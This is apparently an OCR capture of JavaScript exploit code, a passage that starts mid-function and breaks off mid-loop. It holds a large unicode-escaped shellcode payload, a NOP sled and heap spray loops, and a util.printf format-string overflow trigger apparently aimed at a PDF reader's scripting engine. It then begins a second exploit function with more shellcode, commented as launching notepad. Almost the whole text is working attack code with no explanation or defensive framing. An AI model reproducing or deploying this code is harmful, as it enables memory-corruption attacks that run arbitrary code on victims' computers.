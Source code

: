 ```javascript
    var payload = unescape("%uc929%u65b1%ud7db%u74d9%uf424%u83b8%u3830%u5b84%u4331%u0313%u1343%u6883%udacc%u8571%u413d%u6a30%u13f7%ub07d%u5c06%uc249%ube91%u3948%ud6a4%u4246%ud958%uf0e9%ubf3e%ucb93%uf8bc%u520a%u60a7%ubd5e%u804d%ub8b6%ub75a%u5391%uf6b0%ub933%uea10%ubade%u91ba%ud64b%u1fdb%ub411%ub731%u92ab%uf842%u2a7a%ua0b8%uc819%uc7af%u9bee%u7d10%u4e2e%u4201%u8a96%ude7c%ud1cb%u20f0%ue235%uf4e3%u33a8%u6fbe%u8396%u15b9%ub97f%ud56a%u2c92%uf698%ud416%u50c7%u7361%u386d%u1a83%ue308%u7fb1%u7a3f%u20ac%u90a8%u2d99%u544b%u1868%ucced%u8012%u7b51%u7bef%u4d0b%u4095%u10c6%udea5%ue327%u47ed%u9d3e%u28f4%u51cb%ucfd7%u746c%u8c04%u286b%u95cd%u4396%u0b57%u58e2%ue11e%u508a%uab14%uf7cf%uab12%ufb47%u96c3%u9932%ud41d%u3bda%u7d77%uf214%ub242%u636f%u299d%u2962%u7be8%u7fe4%ub283%ub18f%uee39%u7b09%ub7de%ue345%u8c16%u2e59%u59c0%u6fa5%u263f%uda5e%u8219%ua5d1%u54fc%u0474%u75fc%u53b1%u7f0b%u599a%u9409%u48e7%uf318%u71c6%uc930%u6317%u3126%ua923%u2249%ua830%u4247%uad22%u3340%ude7b%u9f86%ue365%u8693%ufdba%u5594%u0f8f%u59bf%u0de8%u74d9%u16ff%ua327%u1cf0%ub333%u021a%uda1c%u2831%u2868%u583f%u1c0a%u720b%u6af0%u8a62%u64fe%u8883%u7ecc%u83ab%u823a%ufd8c%u0ead%u8e59%uc117%u0c8e%u7204%ufeb6%ue3bc%u9a56%u9545%u10c3%u0698%ube7e%ub5ca%u6f07%u2a75%u0a8a%uc717%ub603%u44b8%u59bc%ue62b%uf459%u93d4%u658e%u377a%u14a6%ua20e%ue517%u49c0%u6cd0%u419d");
    var nop = unescape("%u0A0A%u0A0A%u0A0A%u0A0A");
    var heapblock = nop  +  payload;
    var bigblock = unescape("%u0A0A%u0A0A");
    var headersize = 20;
    var spray = headersize  +  heapblock.length;
    while (bigblock.length < spray)  {
        bigblock += bigblock;
    }
    var fillblock = bigblock.substring(0, spray);
    var block = bigblock.substring(0, bigblock.length  -  spray);
    while (block.length  +  spray < 0x40000)  {
        block = block  +  block  +  fillblock;
    }
    var mem_array = new Array();
    for (var i = 0; i < 1400; i++) {
        mem_array[i] = block  +  heapblock;
    }
    var num = 12999999999999999999888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888;
    util.printf("%45000f", num);
}

function second_exploit() {
    // notepad.exe payload
    var shellcode = unescape("%uc931%u64b1%ub6bf%u558b%ud976%ud9cd%u2474%u58f4%ue883%u31fc%u0d78%u7803%ue20d%u6043%u2c45%u44e1%ub6af%u964c%ub72e%ued9a%u55a9%u1a18%u71cc%u2237%u7e30%u91b7%u1856%ue9ae%u2394%u7479%ucdff%u5e6b%ufc95%ue562%u12a2%u77ad%u53d8%u925f%u4178%ue5b2%ufc62%uf826%ub883%u9e2c%u6c59%uf5dd%u5d2a%uc113%uc7c1%ub031%u6cf7%ua2b6%u1838%u2007%u1d29%ua0b1%u0314%uaee1%ufbd8%u96df%ua80b%uc7cd%uca91%ubfab%u7091%uea13%u7a32%u7bb1%u5ba0%ue130%u3b9f%u8d42%ue4ba%u28a0%u4e20%u29d6%u0147%uf2cc%ucff0%uffb9%u2f62%uc948%u2904%ud333%ude69%u2b88%u10f3%u776b%uedee%uef80%u9fcf%u89c2%uc649%uf510%u36e3%u10fb%ud153%u40ef%u4d82%u41f6%ue4ae%u5cb1%uf58a%uaa78%u3472%u750f%u52e6%u712a%u9faf%u5fea%uc24a%u9cf3%u64f2%u0559%u5ecc%u7957%u0607%ue3a9%u828a%u26fc%uc2cc%u7f97%u1577%u2a0a%u9c21%u73c8%ube3e%u4838%uf571%u04de%uca4d%ue02c%u6126%u4c09%ucab8%u16cf%ueb5c%u3af3%uf869%u3ffd%u02b2%u2bfc%u17bf%u3214%u149e%u8f05%u0fff%uec38%u0df4%ue632%u5709%u0f5f%u481a%u6947%u7913%u5680%u864d%ufe94%u9652%uec98%ua8a6%u13b3%ub6c0%u39da%ub1c7%u1421%ub9d8%u6f32%udef2%u091c%uf4e9%ude69%ufd04%ud308%ud722%u1af7%u2f5a%u15f2%u2d5b%u2f31%u3e43%u2c3c%u26a4%ub9d6%u2921%u6d1c%uabe5%u1e0c%u059e%u8fa4%u3f0e%u3e4d%ucbaa%ud183%u5346%u40f5%ub4de%uf46f%uae52%u7901%u53fa%u1e82%uf294%u8d50%u9b01%u28cf%u50e5%ud262%ue195%u661d%u2003%ufeb8%ubcae");
    var mem_array = new Array();
    var cc = 0x0c0c0c0c;
    var addr = 0x400000;
    var sc_len = shellcode.length  *  2;
    var len = addr  -  (sc_len  +  0x38);
    var yarsp = unescape("%u9090%u9090");
    yarsp = s(yarsp, len);
    var count2 = (cc  -  0x400000)  /  addr;
    for (var count = 0; count < count2; count++) {
```